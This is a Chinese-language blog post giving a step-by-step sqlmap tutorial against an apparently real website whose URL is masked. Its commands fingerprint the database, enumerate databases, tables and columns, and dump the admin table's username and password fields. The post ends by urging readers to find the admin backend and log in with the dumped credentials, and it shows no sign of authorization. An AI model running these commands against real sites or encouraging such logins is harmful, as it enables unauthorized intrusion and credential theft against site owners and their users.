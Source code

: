 ```yaml
---
title: sqlmap使用实例
date: 2016-02-18 16:22:09
tags: [Web漏洞]
categories: [网络安全]
---
```


## 1. 确定是什么数据库

    sqlmap -u "http://********/about.php?id=5"

**参数:**
    -u: 指定注入点url

**结果:**
![1.png](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/sqlmap使用实例/1_确定数据库.jpg)

如图所示: 数据库是 `MySQL`


<!-- more -->


## 2. 查看当前站点有那些数据库 

    sqlmap -u "http://*********/about.php?id=5" --dbs

**参数**：
    --dbs: dbs前面有两条杠，请看清楚。

**结果:**
![2.png](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/sqlmap使用实例/2_查看有哪些库.jpg)

如图所示： 有 `dbracpro28` 和 `information_schema`两个数据库

## 3. 查看`dbracpro28`数据库中有那些数据表

    sqlmap -u "http://*********/about.php?id=5" --tables -D "dbracpro28"

**参数**：
    --tables: 列出表
    -D: 指定具体数据库 

**结果:**
![3.png](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/sqlmap使用实例/3_查看有哪些表.jpg)

如图所示: `dbracpro28` 数据看有 34 个表

## 4. 查看 `dbracpro28`数据库中的`admin`表中有那些数据段

    sqlmap -u "http://*********/about.php?id=5" --columns -T "admin"  -D "dbracpro28"

**参数**：
    --columns: 列出字段
    -D: 指定具体数据库
    -T: 指定表 

**结果:**
![4.png](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/sqlmap使用实例/4_查看有哪些字段.jpg)

如图所示: `admin` 表中有以上 4 个字段

## 5. 查看 `dbracpro28`数据库中的`admin`表中`pwd`和`usernc` 里那些值

    sqlmap -u "http://*********/about.php?id=5" --dump -C "pwd, usernc"  -T "admin"  -D "dbracpro28"

**参数**：
    --dump: 将结果导出
    -D: 指定具体数据库
    -T: 指定表 
    -C: 指定字段

**结果:**
![5.png](https://blog-1256977701.cos.ap-chengdu.myqcloud.com/sqlmap使用实例/5_效果图.jpg)

如图所示: `userna`, 和 `pwd` 就被我们扫出来啦~ 然后找到后台, 用它们愉快的登陆吧~~~ ：）
